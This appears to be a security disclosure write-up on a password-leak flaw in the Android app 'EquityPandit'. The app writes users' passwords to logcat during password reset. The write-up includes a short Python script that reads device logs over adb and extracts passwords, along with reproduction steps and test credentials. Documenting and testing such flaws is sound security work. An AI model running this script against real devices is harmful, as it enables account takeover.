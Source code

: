 ## Summary

Software name: "EquityPandit"

Software link: https://play.google.com/store/apps/details?id=com.yieldnotion.equitypandit

Version: 1.0

### Issue #1 - Insecure logging lead to all account take over

Description: 
- Sometimes developers keeps sensitive data logged into the developer console. Thus, attacker easy to capture sensitive
information like password.
- In this application, with adb, attacker can capture password of any users via forgot password function.

Requirement:
- Santoku virtual machine
- Android virtual machine (installed "EquityPandit" apk file)
- Victim user/password: abc@lcedom.com/123456
- Exploit code named capture.py in Santoku vm as below:
```
import subprocess
import re

process_handler = subprocess.Popen(['adb', 'logcat', '-d'], stdout=subprocess.PIPE)
dumps = process_handler.stdout.read()
password_list = re.findall(r'password\s(.*)', dumps)
print 'Captured %i passwords! \nThey are:' %len(password_list)
for index, item in enumerate(password_list):
	print '\t#%i: %s' %(int(index)+1, item)
```

Reproduce:
- Step 1: From Santoku, use adb to connect to Android machine (x.x.x.x)
```
adb connect x.x.x.x
```
- Step 2: From Android machine, open EquityPandit, click forgot password function for acccount "abc@lcedom.com" and then click submit
- Step 3: From Santoku, execute capture.py
- Actual: Password of "abc@lcedom.com" will be show in terminal as "123456"

Demo:
[![PoC](https://github.com/ManhNho/Practical-Android-Penetration-Testing/blob/master/Images/Equitypandit%20PoC.JPG)](https://github.com/ManhNho/Practical-Android-Penetration-Testing/blob/master/Images/Equitypandit%20PoC.wmv)
